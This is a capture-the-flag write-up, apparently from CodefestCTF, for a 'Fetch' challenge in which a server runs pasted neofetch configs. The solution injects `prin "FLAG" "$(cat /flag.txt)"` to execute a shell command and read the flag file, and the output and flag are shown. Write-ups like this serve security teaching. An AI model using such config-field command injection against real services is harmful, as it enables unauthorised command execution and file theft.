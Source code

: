 # Fetch

Total Solves - 104

Final Points - 100

## Description
Are you a unixporn enthusiast? Well, I made just the thing for you!

## Writeup
First thing you can see is that on entering nothing, default neofetch output is printed.

```

    ███████╗███████╗████████╗ ██████╗██╗  ██╗
    ██╔════╝██╔════╝╚══██╔══╝██╔════╝██║  ██║
    █████╗  █████╗     ██║   ██║     ███████║
    ██╔══╝  ██╔══╝     ██║   ██║     ██╔══██║
    ██║     ███████╗   ██║   ╚██████╗██║  ██║
    ╚═╝     ╚══════╝   ╚═╝    ╚═════╝╚═╝  ╚═╝

    A config checker for neofetch

    
Paste your neofetch config. Don't use empty lines.

neofetch output:

       _,met$$$$$gg.          root@840f1a453cad 
    ,g$$$$$$$$$$$$$$$P.       ----------------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 12 (bookworm) x86_64 
 ,$$P'              `$$$.     Host: Google Compute Engine 
',$$P       ,ggs.     `$$b:   Kernel: 6.8.0-1020-gcp 
`d$$'     ,$P"'   .    $$$    Uptime: 1 day, 20 hours, 24 mins 
 $$P      d$'     ,    $$P    Packages: 257 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.2.15 
 $$;      Y$b._   _,d$P'      Terminal: socat 
 Y$$.    `.`"Y$$$$P"'         CPU: Intel Xeon (8) @ 2.199GHz 
 `$$b      "-.__              Memory: 2211MiB / 32093MiB 
  `Y$$
   `Y$$.                                              
     `$$b.                                            
       `Y$$b.
          `"Y$b._
              `"""

```
If you go to [neofetch wiki](https://github.com/dylanaraps/neofetch/wiki/Customizing-Info) and read about the configuration, you will come across `prin` function that you can use to run custom commands.

```
    ███████╗███████╗████████╗ ██████╗██╗  ██╗
    ██╔════╝██╔════╝╚══██╔══╝██╔════╝██║  ██║
    █████╗  █████╗     ██║   ██║     ███████║
    ██╔══╝  ██╔══╝     ██║   ██║     ██╔══██║
    ██║     ███████╗   ██║   ╚██████╗██║  ██║
    ╚═╝     ╚══════╝   ╚═╝    ╚═════╝╚═╝  ╚═╝

    A config checker for neofetch

    
Paste your neofetch config. Don't use empty lines.
prin "FLAG" "$(cat /flag.txt)"

neofetch output:

onFLAG: CodefestCTF{7h15_15_7h3_n30f37ch_f14g_dGhJqHC1} 
       _,met$$$$$gg.          root@840f1a453cad 
    ,g$$$$$$$$$$$$$$$P.       ----------------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 12 (bookworm) x86_64 
 ,$$P'              `$$$.     Host: Google Compute Engine 
',$$P       ,ggs.     `$$b:   Kernel: 6.8.0-1020-gcp 
`d$$'     ,$P"'   .    $$$    Uptime: 1 day, 20 hours, 27 mins 
 $$P      d$'     ,    $$P    Packages: 257 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.2.15 
 $$;      Y$b._   _,d$P'      Terminal: socat 
 Y$$.    `.`"Y$$$$P"'         CPU: Intel Xeon (8) @ 2.199GHz 
 `$$b      "-.__              Memory: 2205MiB / 32093MiB 
  `Y$$
   `Y$$.                                              
     `$$b.                                            
       `Y$$b.
          `"Y$b._
              `"""
```

## Flag
`CodefestCTF{7h15_15_7h3_n30f37ch_f14g_[a-zA-Z0-9]{8}}`